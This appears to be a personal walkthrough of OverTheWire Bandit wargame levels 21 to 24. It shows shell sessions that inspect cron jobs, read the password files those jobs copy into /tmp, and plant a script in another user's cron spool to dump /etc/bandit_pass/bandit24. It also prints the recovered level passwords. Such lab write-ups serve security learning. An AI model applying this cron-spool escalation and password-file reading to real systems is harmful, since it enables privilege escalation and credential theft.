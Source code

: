 ssh bandit21@bandit.labs.overthewire.org -p 2220  
  
bandit21@bandit:/etc/cron.d$ cat cronjob\_bandit22  
@reboot bandit22 /usr/bin/cronjob\_bandit22.sh &&gt; /dev/null  
\* \* \* \* \* bandit22 /usr/bin/cronjob\_bandit22.sh &&gt; /dev/null  
bandit21@bandit:/etc/cron.d$ cat /usr/bin/cronjob\_bandit22.sh  
\#!/bin/bash  
chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv  
cat /etc/bandit\_pass/bandit22 &gt; /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv  
bandit21@bandit:/etc/cron.d$ cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv  
Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI  
  
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#  
\#\#\#\#\#\#\#\#\#\#\#\#\#\# Bandit22 \#\#\#\#\#\#\#\#\#\#\#\#\#\#  
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#  
  
ssh bandit22@bandit.labs.overthewire.org -p 2220  
  
bandit22@bandit:/usr/bin$ cat /usr/bin/cronjob\_bandit23.sh  
\#!/bin/bash  
  
myname=$\(whoami\)  
mytarget=$\(echo I am user $myname \| md5sum \| cut -d ' ' -f 1\)  
  
echo "Copying passwordfile /etc/bandit\_pass/$myname to /tmp/$mytarget"  
  
cat /etc/bandit\_pass/$myname &gt; /tmp/$mytarget  
bandit22@bandit:/usr/bin$ echo I am user bandit23 \| md5sum \| cut -d ' ' -f 1  
8ca319486bfbbc3663ea0fbe81326349  
bandit22@bandit:/usr/bin$ cat /tmp/8ca319486bfbbc3663ea0fbe81326349  
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n  
  
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#  
\#\#\#\#\#\#\#\#\#\#\#\#\#\# Bandit23 \#\#\#\#\#\#\#\#\#\#\#\#\#\#  
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#  
  
ssh bandit23@bandit.labs.overthewire.org -p 2220  
  
criar script /tmp/pvieira24/pv.sh  
  
\*\*\*\*\*\*\*  
\#!/bin/bash  
  
cat /etc/bandit\_pass/bandit24 &gt; /tmp/pvieira24/bandit24.pass  
\*\*\*\*  
  
bandit23@bandit:/tmp/pvieira24$ chmod +x pv.sh  
  
bandit23@bandit:/tmp/pvieira24$ chmod 777 .  
  
bandit23@bandit:/tmp/pvieira24$ cp pv.sh /var/spool/bandit24  
  
bandit23@bandit:/tmp/pvieira24$ ls  
bandit24.pass pv.sh  
bandit23@bandit:/tmp/pvieira24$ cat bandit24.pass  
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ  
  
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#  
\#\#\#\#\#\#\#\#\#\#\#\#\#\# Bandit24 \#\#\#\#\#\#\#\#\#\#\#\#\#\#  
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#  
  